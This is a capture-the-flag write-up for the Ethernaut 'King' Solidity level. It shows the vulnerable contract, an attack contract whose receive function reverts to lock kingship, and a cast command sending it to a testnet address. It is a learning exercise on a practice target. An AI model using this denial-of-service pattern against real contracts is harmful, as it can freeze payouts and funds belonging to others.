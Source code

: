 ```yaml
---
title: "King"
tags: ["Receive"]
reference: https://ethernaut.openzeppelin.com/level/9
---
```


# Description

The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

Such a fun game. Your goal is to break it.

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

```sol
// SPDX-License-Identifier: MI
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

# Solution

1. Attack Idea

To become king, we have to execute `payable(king).transfer(msg.value)` first. So we may 

(1) let our controlled smart contract become king.
(2) require only the king(attacker address) can call the `receive` function of the smart contract so that the `King` contract cannot transfer ether to it.

2. Deploy `KingForever` smart contract

```sol
contract KingForever {
    address king;  

    constructor() {
        king = msg.sender;
    }

    function beKing(address _kingGame) external payable {
        _kingGame.call{value: msg.value}("");
    }

    receive() external payable {
        king.call{value: address(this).balance}("");
        require(msg.sender == king);
    }
}
```

3. call `beKing(address)`

```
cast send 0xEbDE76f16f11e1426972b9dA0AB3E18f240631a8 "beKing(address)" 0xd98558DEEE4ae2B3e6a3d4C0c2384c6aa16BE614 --valu
e 0.01ether --rpc-url $BASE_SEPOLIA_RPC --private-key
```
